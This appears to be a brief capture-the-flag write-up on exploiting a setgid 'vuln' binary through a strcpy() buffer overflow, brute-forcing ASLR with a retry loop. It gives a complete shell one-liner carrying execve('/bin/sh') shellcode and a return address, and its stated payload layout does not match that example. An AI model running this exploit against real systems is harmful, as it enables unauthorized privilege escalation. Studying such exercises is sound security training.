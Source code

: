`vuln` has setgid bit. If we could find a way to change the flow of vuln, we can do it with owner group's rights.

strcpy() is vulnerable to bufferoverflow. As ASLR is enabled, our shellcode address change for each programm execution. One simple way to bypass this mitigation is to choose one address and to try this address again and again until we get lucky.

PAYLOAD : NOP*100 + SHELLCODE*25 + JUNK*143 + RET*4 (RET can change, we have to find it manually, using GDB for eg.)
Example : for i in {1..50000}; do echo Essai:$i && ./vuln `python -c "print '\x90'*1987 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80' + '\x10\xd7\xba\xbf'"`;clear;done
